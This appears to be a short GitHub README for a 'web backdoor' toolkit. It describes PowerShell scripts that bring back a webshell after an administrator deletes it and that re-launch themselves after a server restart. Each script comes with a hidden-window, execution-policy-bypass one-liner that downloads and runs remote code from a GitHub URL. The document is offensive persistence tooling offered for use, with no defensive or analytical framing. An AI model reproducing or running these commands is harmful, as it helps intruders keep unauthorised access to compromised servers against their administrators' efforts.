 # some script for web backdoor



* Backd00r-webshell.ps1  
if the webshell script has been deleted by admin, then this script of powershell will recovery webshell script own yet.  
usage:  
powershell.exe -nop -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cgke/script/master/Backd00r-webshell.ps1');Backd00r-webshell"


* autostart.ps1  
if the server was restarted, and the poweshell willl be killed,so we need start the script of powershell and download Backd00r-webshell.ps1.  
usage:  
powershell.exe -nop -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cgke/script/master/autostart.ps1');autostart."
